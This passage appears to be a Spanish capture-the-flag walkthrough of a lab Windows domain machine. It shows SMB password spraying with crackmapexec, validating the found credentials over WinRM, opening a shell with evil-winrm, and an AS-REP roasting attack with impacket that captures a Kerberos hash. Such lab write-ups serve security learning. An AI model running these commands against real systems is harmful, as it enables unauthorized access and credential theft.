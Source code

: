 Y con **crackmapexec**, vamos a aplicar fuerza bruta al **servicio SMB** y utilizaremos un pequeño filtro para que nos muestre los resultados válidos:
```bash
crackmapexec smb 192.168.212.4 -u usuarios.txt -p Skyisthelimit.txt --continue-on-success | grep "[+]"
SMB                      192.168.212.4   445    BIG              [+] bbr.thl\song:******
```

Muy bien, tenemos la contraseña del **usuario song** y si recordamos el escaneo de servicios, está activo el **servicio WinRM**, por lo que podemos probar si estas credenciales sirven para ese servicio:
```bash
crackmapexec winrm 192.168.212.4 -u 'song' -p '******'
SMB         192.168.212.4   5985   BIG              [*] Windows 10 / Server 2016 Build 14393 (name:BIG) (domain:bbr.thl)
HTTP        192.168.212.4   5985   BIG              [*] http://192.168.212.4:5985/wsman
WINRM       192.168.212.4   5985   BIG              [+] bbr.thl\song:****** (Pwn3d!)
```
Excelente, podemos conectarnos a la máquina víctima con la herramienta **evil-winrm**.

Hagámoslo:
```batch
evil-winrm -i 192.168.212.4 -u 'song' -p '******'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\TEMP\Documents> whoami
bbr\song
```
Estamos dentro, pero este usuario no tiene la flag.

<br>

<h2 id="AS-REP">Aplicando AS-REP Roasting Attack</h2>

Como ya tenemos una lista de usuarios válidos, podemos aplicar el **AS-REP Roasting Attack**, con tal de confirmar si algún usuario tiene la flag **UF_DONT_REQUIRE_PREAUTH** y así capturar el **hash krb5asrep** que contiene la contraseña del usuario con esta flag.

Lo haremos con la herramienta **impacket-GetNPUsers**:
```bash
impacket-GetNPUsers -no-pass -usersfile usuarios.txt bbr.thl/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] User big doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$song@BBR.THL:03ca8e428eb7f65eed7f026ca8332ca6$ae9da9376d85f2f338e8...
[-] User music doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```
Genial, el **usuario song** tiene activa esta flag.
